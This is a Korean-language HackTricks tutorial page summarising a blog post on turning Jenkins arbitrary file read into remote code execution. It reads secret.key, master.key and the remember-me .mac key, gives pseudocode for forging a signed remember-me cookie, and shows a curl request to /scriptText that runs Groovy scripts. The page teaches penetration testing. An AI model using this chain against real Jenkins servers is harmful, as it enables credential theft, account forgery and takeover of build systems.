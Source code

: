 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

이 블로그 게시물에서는 Jenkins의 Local File Inclusion 취약점을 RCE로 변환하는 훌륭한 방법을 찾을 수 있습니다: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

이것은 임의의 쿠키를 조작하여 RCE를 얻는 방법에 대한 게시물의 요약입니다. 제가 직접 요약을 작성할 시간이 생길 때까지 사용됩니다:

### 공격 전제 조건

* **기능 요구 사항:** "Remember me"가 활성화되어 있어야 합니다 (기본 설정).
* **접근 수준:** 공격자는 전체/읽기 권한이 필요합니다.
* **비밀 접근:** 주요 파일에서 이진 및 텍스트 콘텐츠를 읽을 수 있는 능력.

### 상세한 악용 과정

#### 1단계: 데이터 수집

**사용자 정보 검색**

* 각 사용자에 대해 `$JENKINS_HOME/users/*.xml`에서 사용자 구성 및 비밀을 접근하여 수집합니다:
* **사용자 이름**
* **사용자 시드**
* **타임스탬프**
* **비밀번호 해시**

**비밀 키 추출**

* 쿠키 서명에 사용되는 암호화 키를 추출합니다:
* **비밀 키:** `$JENKINS_HOME/secret.key`
* **마스터 키:** `$JENKINS_HOME/secrets/master.key`
* **MAC 키 파일:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### 2단계: 쿠키 위조

**토큰 준비**

*   **토큰 만료 시간 계산:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 현재 시간에 1시간 추가
```
{% endcode %}
*   **토큰을 위한 데이터 연결:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC 키 복호화**

*   **MAC 키 파일 복호화:**

```javascript
key = toAes128Key(masterKey)  // 마스터 키를 AES128 키 형식으로 변환
decrypted = AES.decrypt(macFile, key)  // .mac 파일 복호화
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**서명 계산**

*   **HMAC SHA256 계산:**

```javascript
mac = HmacSHA256(token, macKey)  // 토큰과 MAC 키를 사용하여 HMAC 계산
tokenSignature = bytesToHexString(mac)  // MAC을 16진수 문자열로 변환
```

**쿠키 인코딩**

*   **최종 쿠키 생성:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // 쿠키 데이터를 Base64로 인코딩
```
{% endcode %}

#### 3단계: 코드 실행

**세션 인증**

* **CSRF 및 세션 토큰 가져오기:**
* `/crumbIssuer/api/json`에 요청을 보내 `Jenkins-Crumb`를 얻습니다.
* 응답에서 `JSESSIONID`를 캡처하여 remember-me 쿠키와 함께 사용합니다.

**명령 실행 요청**

*   **Groovy 스크립트로 POST 요청 보내기:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy 스크립트는 시스템 수준의 명령이나 Jenkins 환경 내에서 다른 작업을 실행하는 데 사용할 수 있습니다.

제공된 curl 명령 예시는 임의의 코드를 안전하게 실행하기 위해 필요한 헤더와 쿠키를 사용하여 Jenkins에 요청을 보내는 방법을 보여줍니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
